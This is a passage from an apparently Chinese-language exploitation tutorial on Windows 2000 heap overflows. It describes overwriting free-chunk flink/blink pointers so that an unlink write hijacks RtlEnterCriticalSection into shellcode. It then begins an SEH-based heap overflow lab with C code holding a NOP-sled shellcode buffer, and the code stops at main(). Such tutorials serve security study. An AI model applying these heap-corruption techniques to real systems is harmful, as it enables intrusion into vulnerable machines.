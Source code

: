 直接到rep movsd, 内存区转到0x00360758, 可以看到成功覆盖尾块的flink、blink指针, 当h1卸下时(请求h2)将发生
```
h1->blink->flink = h1->flink
[0x7ffdf020] = 0x00360688
```

当进程退出时, 再调用临界区函数RtlEnterCriticalSection, 实际上调用shellcode, pwn~
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-013.png)


## 0x003 在堆溢出中利用S.E.H

>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  

VC 6.0新建一个工程, 贴入以下代码, 选择release版本
```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";		# 200 byte

DWORD MyExceptionhandler()
{
	ExitProcess(1);
	return 0;
}

int main()
```